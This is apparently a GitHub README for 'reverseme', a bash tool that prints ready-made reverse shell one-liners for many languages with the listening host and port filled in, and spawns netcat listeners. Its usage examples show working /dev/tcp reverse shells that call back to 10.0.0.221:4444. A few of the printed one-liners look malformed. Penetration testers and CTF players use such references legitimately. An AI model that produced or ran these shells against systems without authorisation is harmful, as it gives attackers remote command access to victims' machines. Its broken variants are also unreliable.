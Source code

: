 # ReverseMe
Easily display reverse shells in different languages with the listening host and listening port already built into the syntax.

## Installation
By default, *reverseme* is set to install in your home directory. \
Using your favorite text editor, change the username for the USER variable. \
Also change the directory path for the DIRECTORY variable. **Use absolute path names. It just makes it easier.** \
*reverseme* uses \.bash_aliases to add the alais for *reverseme*. \
*reversme* will source the bash_completion file automatically to your \.bashrc file.

##### What if I want to use something different than .bashrc or .bash_aliases?
You will need to use your favorite text editor and edit the variables ALIAS_FILE and SOURCE_FILE. \
**Otherwise, leave them alone.**

##### What if I move *reverseme* after I run the install.sh script?
If at anytime you move *reverseme* after running install.sh, you will need to edit your \.bashrc, \.bash_aliases, and the absolute sourced path of *shells.sh* in *main.sh* file, using your favorite text editor.

#### To install:
```
git clone https://github.com/DFC302/reverseme.git
cd reverseme/
sudo bash install.sh
cd
source ~/.bashrc
```
**Right now, *reverseme's* *install.sh* script is set to work on Debian\Ubuntu related distbutions.**

## Usage
**Important Note:** \
The reverse shells are stored in a separate file wrapped in functions. Because of this, all other options must be called FIRST before you call the language option of your choice. Below are some simple example usages.

### Basic usage:
```
reverseme --lport 4444 --lhost 10.0.0.221 --langs bash
```

#### Result:
```
bash -i >& /dev/tcp/10.0.0.221/4444 0>&1

exec /bin/bash 0&0 2>&0

0<&196;exec 196<>/dev/tcp/10.0.0.221/4444; sh <&196 >&196 2>&196

exec 5<>/dev/tcp/10.0.0.221/4444 cat <&5 | while read line; do  2>&5 >&5; done
```

### Save shell to clipboard"
```
reverseme --lhost 10.0.0.221 --lport 4444 --save --langs bash
```

**If there is more than one reverse shell available, *reverseme* will ask you to select which one. Whatever option you choose will automatically be saved to your clipboard.**.

#### Result
```
bash -i >& /dev/tcp/10.0.0.221/4444 0>&1

exec /bin/bash 0&0 2>&0

0<&196;exec 196<>/dev/tcp/10.0.0.221/4444; sh <&196 >&196 2>&196

exec 5<>/dev/tcp/10.0.0.221/4444 cat <&5 | while read line; do  2>&5 >&5; done

Selection [1-4]: 2
```

### List supported languages
```
reverseme --list
```
#### Result:
```
Supported languages:
	bash
	awk
	perl
	python
	php
	ruby
	netcat
	telnet
	socat
	java
```
### Spawn listener
```
reverseme --lport 4444 --listener gnome
```
**--OR--**
```
reverseme --lhost 10.0.0.221 --lport 4444 [optional: --save] --listener gnome --langs bash
```
This will spawn a new terminal using netcat to listen on the given lport.

### Spawn version/email/title information
```
reverseme --version
```
#### Result:
```
	________                                    ______  ___     
	___  __ \_______   ____________________________   |/  /____ 
	__  /_/ /  _ \_ | / /  _ \_  ___/_  ___/  _ \_  /|_/ /_  _ \
	_  _, _//  __/_ |/ //  __/  /   _(__  )/  __/  /  / / /  __/
	/_/ |_| \___/_____/ \___//_/    /____/ \___//_/  /_/  \___/                                                               

	
		Written by: Matthew Greer
		Github: https://github.com/DFC302
		HTB Profile: https://www.hackthebox.eu/profile/17842
		Email: pydev302@gmail.com
		Version: 2.0.0


```


### Help Menu
```
reverseme - A quick reference script that can easily display reverse shells for different languages.
Version: 2.0.0

Usage: reverseme --[options]
Example usage: reverseme --lhost 10.0.0.2 --lport 4444 --langs perl linux
Warning: lport and lhost both needed FIRST to display reverse shells correctly!
	WRONG: reverseme --langs bash --lhost 10.0.0.2 --lport 4444
	CORRECT: reverseme --lhost 10.0.0.2 || lport 4444 --langs bash

--help			Displays this help menu and exits.
--version		Displays version and title information.
--list			List avaialble languages supported.
--save			Save reverse shell to clipboard.
--lport=[port]		Provide a listening port.
--lhost=[IP]		Provide a listening host.

--listener=[ENV]	Spawn a listener on a specfic lport.
				gnome
				xfce
				Example: --lport 4444 --listener gnome

--langs=[lang]	Language reverse shell is written in.
			bash
			awk
			perl [OPTIONAL] linux || windows
			python [PROTOCOL] tcp || udp || stcp
			php
			ruby [OPTIONAL] linux || windows
			netcat
			telnet
			socat
			java

```

### Common errors?
#### When I use the --save flag, I get an error: *error cant open display*.
This usually happens with systems without a GUI. You can check out the following [help](https://askubuntu.com/questions/305654/xclip-on-headless-server) to see if you can find a solution.

#### *reverseme* tells me that I need the lhost and/or lport first, when I use the --langs flag before those flags.
This is because each language is stored in a function in another bash file. Essentially, main.sh is calling the function that holds the reverse shells of the language you have chosen. If you call that function first, the rest of the flags are not taken into account as variables. Use the *--langs [lang]* as the last part of your syntax.

#### I am getting a *permission denied* when running *reverseme*.
I have seen this before on some of the test systems I have tested *reverseme* on. The easiest solution is to do this:
```
chmod -R 755 /reverseme
chown -R [user] /reverseme
chgrp -R [user] /reverseme
```
#### I ran the *install.sh* script, but I still cant use *reverseme* as an alias?
Using your favorite editor, open the \.bash_aliases file in your home directory. Make sure that the path to *reverseme's* *main.sh* file is correct.

#### *reverseme* tells me that it has no file named *shells.sh*
Using your favorite editor, open the *main.sh* file in *reverseme* directory. Edit line 4, where it is sourcing the *shells.sh* file and make sure the path is correct.

**Anything else. Email me.**


### Contributing?
I would be interested in more reverse shells that I can add to *reverseme* \
Or if you find this useful or it is helped you in anyway, you can always say thanks by buying me a coffee.

<a href="https://www.buymeacoffee.com/dfc302" target="_blank"><img src="https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png" alt="Buy Me A Coffee" style="height: 41px !important;width: 174px !important;box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;-webkit-box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;" ></a>
